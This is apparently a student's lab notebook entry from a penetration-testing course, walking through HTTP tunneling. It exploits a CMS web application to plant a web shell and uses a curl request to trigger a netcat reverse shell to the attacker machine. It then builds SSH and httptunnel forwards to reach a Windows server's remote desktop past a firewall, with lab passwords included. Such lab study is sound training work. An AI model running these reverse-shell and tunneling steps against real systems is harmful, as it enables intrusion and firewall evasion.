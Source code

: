 20.5.1.1

# 20.5.1.1

## 20.5.1.1.1. Connect to your dedicated Linux lab client as the student account using **rdesktop** and run the **http_tunneling.sh** script from **/root/port_forwading_and_tunneling** as root

Log into Debian as student
```plaintext
kali@kali:~$ rdesktop 192.168.214.44 -u student -p lab
Autoselecting keyboard map 'en-us' from locale
Connection established using plain RDP.
Sound(warning): rdpsnd_process_packet(), Unhandled opcode 0x27
Clipboard(error): xclip_handle_SelectionNotify(), unable to find a textual target to satisfy RDP clipboard text request
```

Change to root user and run http_tunneling.sh
```plaintext
student@debian:~$ su
Password: 
root@debian:/home/student# /root/port_forwarding_and_tunneling/
clear_rules.sh                 ssh_local_port_forwarding.sh
http_tunneling.sh              ssh_remote_port_forwarding.sh
root@debian:/home/student# /root/port_forwarding_and_tunneling/http_tunneling.sh 
root@debian:/home/student#
```
![745b8246a9b4964b8ce623ccda88a896.png](:/a959d9ae0ddf49f198f47dc1e5495386)




## 20.5.1.1.2. Start the *apache2* service and exploit the vulnerable web application hosted on port 443 (covered in a previous module) in order to get a reverse HTTP shell.

Start the apache2 service
```plaintext
root@debian:/home/student# systemctl start apache2
root@debian:/home/student# 
```

Run the exploit from 15.2.4.1.4:
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/20_portForwardingAndTunneling$ python 44976_modified.py 
/home/kali/.local/lib/python2.7/site-packages/urllib3/connectionpool.py:988: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.214.44'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning,
[+] Authenticated successfully with the supplied credentials
[*] Attempting to upload cmsmsrce.txt...
/home/kali/.local/lib/python2.7/site-packages/urllib3/connectionpool.py:988: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.214.44'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings                                 
  InsecureRequestWarning,                                                                                     
[+] Successfully uploaded cmsmsrce.txt                                                                        
[*] Attempting to copy cmsmsrce.txt to shell.php...                                                           
/home/kali/.local/lib/python2.7/site-packages/urllib3/connectionpool.py:988: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.214.44'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings                                 
  InsecureRequestWarning,                                                                                     
[+] File copied successfully                                                                                  
[+] Exploit succeeded, shell can be found at: https://192.168.214.44/uploads/shell.php 
```
![955479567d315ac4d1a0372cf7a99eaa.png](:/d808f819d4da485c902455be431c7f9b)


Open a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lnvp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
```

Run a netcat cmd on the exploit to connect to our Kali machine.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ curl -k https://192.168.214.44/uploads/shell.php?cmd=nc+-nv+192.168.119.214+4444+-e+/bin/bash
```

Notice we have a shell
![5e8015883e870ed971abc5167c000029.png](:/907f3890d42a4673938038bd738f3b18)


## 20.5.1.1.3. Replicate the scenario demonstrated above using your dedicated clients.

Ensure that 'httptunnel' has been installed onto the Kali machine
```plaintext
kali@kali:~$ sudo apt install httptunnel
```

### Using the shell we caught for the Debian machine, create a local forward from it (127.0.0.1) and log in as student. We forward all requests on port 8888(0.0.0.0:8888) to the Windows Server's remote desktop port (172.16.214.5:3389)
`ssh -L 0.0.0.0:8888:172.16.214.5:3389 student@127.0.0.1`
![b8bee8a5f52cf51d3813e00e667addcd.png](:/db324dec5d044a8aabff091637bab747)

Verify that you're listening on port 8888
![9ba18d55db8dd6b0254902f4db1afa0c.png](:/410c914748664351858858f6a2328efc)

### Still from the Debian client, create an HTTPTunnel out to our Kali Linux machine so that we can slip traffic past the HTTP-only protocol restriction.
`hts --forward-port localhost:8888 1234`
![b9af51816cb3976f207ffb881f1a90ad.png](:/e07d8700274f4c1b8208bc529be0d4f0)

Confirm that the HTTPTunnel server is up and running using ps and ss
`ps aux | grep hts`
![fddd82d99084c45ba7ced09b1518ee0b.png](:/37ef05b0749c452089a0cab158ac705d)
`ss -antp | grep "1234"`
![4e1ea4dd0c6f03e8d2c92bdb2838f24e.png](:/3307dd5d77114c829a4e5b50e9ecbf13)

### Create an HTTPTunnel client that takes our remote desktop traffic, encapsulates it into an HTTP stream, and sends it to the listening HTTPTunnel server.

Listen on localhost port 8080 (--forward-port 8080), HTTP-encapsulate the traffic, and forward it across the firewall to our listening HTTPTunnel server port on port 1234
`htc --forward-port 8080 192.168.214.44:1234`

Verify the HTTPTunnel client it working
`ps aux | grep htc`
`ss -antp | grep "8080"`
![4ee6d45f19eaec4f2b12156bd1e33d86.png](:/9ab80d1f25af449d8a1f051728cd4a9e)

Now, all traffic sent to TCP port 8080 on our Kali Linux machine will be redirected into our HTTPTunnel (where it is HTTP-encapsulated, sent across the firewall to the compromised Linux server and decapsulated) and redirected again to the Windows Server’s remote desktop service.

Open Wireshark and sniff the traffic to validate this is HTTP-encapsulated



Test to see if we get redirected to the Windows Sever's remote desktop service
`rdesktop 127.0.0.1:8080`
![bfb65ffbeddedf56caba07a10a17fd4b.png](:/9a9401e586d34c4ea445db5c2260a18c)
We get the Windows Server remote desktop
![a54c69ceab036b1d5f8ea55cb2126656.png](:/7c125327217d4ec8aaad66ae3a2647a8)
Sign into the Windows Server as corp\administrator, password: lab
![19ebde5f543ff8cbb419dd43dd1c9ead.png](:/1243a51952144208a071f4cbea8e3573)
We are on the Windows Server 2016 desktop
![2775398d79c8b1a8cb6ecf427eb927df.png](:/dc9d195153ef40369d8ac48f2ec5a802)

We confirm on Wireshark -> interface: tun0 -> display filter: host 192.18.119.214 (Kali)
Here we see that the traffic goes to and from Kali to Debian client
![8632ed05c9e0227be4949a02f403ae26.png](:/4fab3c38a3a745cc98195e0b618d8469)
![ec716507b17f633aa3ae7fece6d04706.png](:/5b0a52a6a6b346c6896957a2ecf269fa)

























id: f6d5f7fe96c74388b0734d338abc025f
parent_id: 8c275cb4cbe9414b8a8c9749aa38edf3
created_time: 2020-10-04T13:35:23.192Z
updated_time: 2020-10-05T08:53:16.696Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-04T13:35:23.192Z
user_updated_time: 2020-10-05T08:53:16.696Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1